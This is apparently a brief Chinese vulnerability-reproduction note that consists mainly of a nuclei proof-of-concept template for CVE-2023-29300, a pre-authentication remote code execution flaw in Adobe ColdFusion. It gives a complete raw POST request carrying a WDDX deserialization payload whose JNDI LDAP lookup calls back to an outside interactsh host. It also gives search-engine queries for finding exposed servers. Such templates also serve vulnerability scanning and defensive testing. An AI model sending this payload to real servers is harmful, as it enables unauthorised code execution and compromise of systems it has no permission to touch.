 ![image-20230728161945493](images/3.png)

# 漏洞复现

直接用nuclei的poc

```
id: CVE-2023-29300

info:
  name: Adobe ColdFusion - Pre-Auth Remote Code Execution
  author: rootxharsh,iamnoooob,pdresearch
  severity: critical
  description: |
    Adobe ColdFusion versions 2018u16 (and earlier), 2021u6 (and earlier) and 2023.0.0.330468 (and earlier) are affected by a Deserialization of Untrusted Data vulnerability that could result in Arbitrary code execution. Exploitation of this issue does not require user interaction.
  reference:
    - https://blog.projectdiscovery.io/adobe-coldfusion-rce/
    - https://helpx.adobe.com/security/products/coldfusion/apsb23-40.html
  metadata:
    max-request: 1
    fofa-query: app="Adobe-ColdFusion"
    shodan-query: http.component:"Adobe ColdFusion"
    product: coldfusion
    vendor: adobe
  tags: cve,cve2023,adobe,rce,coldfusion,deserialization

variables:
  callback: "{{interactsh-url}}"
  jndi: "ldap%3a//{{callback}}"

requests:
  - raw:
      - |
        POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        argumentCollection=<wddxPacket+version%3d'1.0'><header/><data><struct+type%3d'xcom.sun.rowset.JdbcRowSetImplx'><var+name%3d'dataSourceName'><string>{{jndi}}</string></var><var+name%3d'autoCommit'><boolean+value%3d'true'/></var></struct></data></wddxPacket>
```